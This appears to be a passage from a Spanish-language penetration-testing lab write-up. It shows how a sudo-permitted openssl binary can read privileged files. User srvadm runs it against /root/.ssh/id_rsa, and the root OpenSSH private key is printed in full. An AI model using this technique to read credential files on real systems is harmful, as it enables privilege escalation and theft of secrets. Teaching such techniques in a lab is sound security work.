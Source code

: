 La entrada establece que podemos usar el archivo binario para el archivo privilegiado se lee de la siguiente manera:

  Persistencia posterior a la explotación

```shell-session
LFILE=file_to_read
openssl enc -in "$LFILE"
```

Vamos a intentarlo

  Persistencia posterior a la explotación

```shell-session
srvadm@dmz01:~$ LFILE=/root/.ssh/id_rsa
srvadm@dmz01:~$ sudo /usr/bin/openssl enc -in $LFILE

-----BEGIN OPENSSH PRIVATE KEY-----
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
WNfJbbEPrmQf0AAAALcm9vdEB1YnVudHU=
-----END OPENSSH PRIVATE KEY-----
```
